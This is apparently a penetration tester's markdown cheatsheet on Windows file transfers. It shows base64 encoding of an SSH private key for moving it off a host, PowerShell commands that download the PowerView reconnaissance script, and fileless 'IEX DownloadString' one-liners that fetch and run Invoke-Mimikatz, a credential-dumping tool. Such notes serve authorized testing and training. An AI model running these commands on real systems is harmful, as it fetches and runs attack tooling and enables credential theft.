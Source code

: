 [File transfer cheatsheet](https://www.hackingarticles.in/file-transfer-cheatsheet-windows-and-linux/)<br>
[File transfer cheatsheet 2](https://blog.certcube.com/file-transfer-cheatsheet-for-pentesters/)
# File Transfers
## Windows File Transfers
### Powershell Base64 Enconde & Decode
Encode
```
cat id_rsa |base64 -w 0;echo
```
Decode
```
[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("<Base64-String>"))
```
### Powershell Web Downloads

| Method	| Description|
|---------|-----------|
| OpenRead	| Returns the data from a resource as a Stream.| 
| OpenReadAsync	| Returns the data from a resource without blocking the calling thread.| 
| DownloadData	| Downloads data from a resource and returns a Byte array.| 
| DownloadDataAsync	| Downloads data from a resource and returns a Byte array without blocking the calling thread.| 
| DownloadFile	| Downloads data from a resource to a local file.| 
| DownloadFileAsync	| Downloads data from a resource to a local file without blocking the calling thread.| 
| DownloadString	| Downloads a String from a resource and returns a String.| 
| DownloadStringAsync	| Downloads a String from a resource without blocking the calling thread.| 

### PowerShell DownloadFile Method
```
# Example: (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')

# Example: (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
(New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'PowerViewAsync.ps1')
```

### Powershell DownloadString - Fileless Method
```
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```
Pipeline Input
```
(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```
### Powershell Invoke-WebRequest
```
Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```
### Common Errors
```
```